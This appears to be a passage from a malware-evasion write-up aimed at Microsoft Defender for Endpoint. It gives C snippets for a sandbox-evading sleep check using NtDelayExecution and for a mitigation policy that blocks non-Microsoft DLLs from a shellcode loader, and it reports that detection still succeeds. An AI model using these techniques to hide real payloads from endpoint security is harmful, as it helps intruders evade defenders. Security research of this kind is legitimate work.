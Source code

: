 Even though we have injected in ASR excluded process we find that MDE has detected that it is still malicious.

We add a few more checks to get past MDE:

Timer execution to avoid Sandbox checks:

```
// Converting minutes to milliseconds
	float ftMinutes = 0.1;
	DWORD               dwMilliSeconds = ftMinutes * 60000;
	LARGE_INTEGER       DelayInterval = { 0 };
	LONGLONG            Delay = NULL;
	NTSTATUS            STATUS = NULL;
	DWORD               _T0 = NULL,
		_T1 = NULL;

	// Converting from milliseconds to the 100-nanosecond - negative time interval
	Delay = dwMilliSeconds * 10000;
	DelayInterval.QuadPart = -Delay;

	_T0 = GetTickCount64();

	// Sleeping for 'dwMilliSeconds' ms
	if ((STATUS = ntDelayExecution(FALSE, &DelayInterval)) != 0x00 && STATUS != STATUS_TIMEOUT) {
		printf("[!] NtDelayExecution Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	_T1 = GetTickCount64();

	// Slept for at least 'dwMilliSeconds' ms, then 'DelayExecutionVia_NtDE' succeeded, otherwize it failed
	if ((DWORD)(_T1 - _T0) < dwMilliSeconds)
		return FALSE;
```

And finally the Process Mitigation Policy to avoid non-Microsoft loads: 

```
DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;

	// Add process mitigation attribute
	AttributeList->Attributes[4].Attribute = PS_ATTRIBUTE_MITIGATION_OPTIONS;
	AttributeList->Attributes[4].Size = sizeof(DWORD64);
	AttributeList->Attributes[4].ValuePtr = &policy;
```

Unfortunately we are still detected.


[+]: Shellcode located at c7160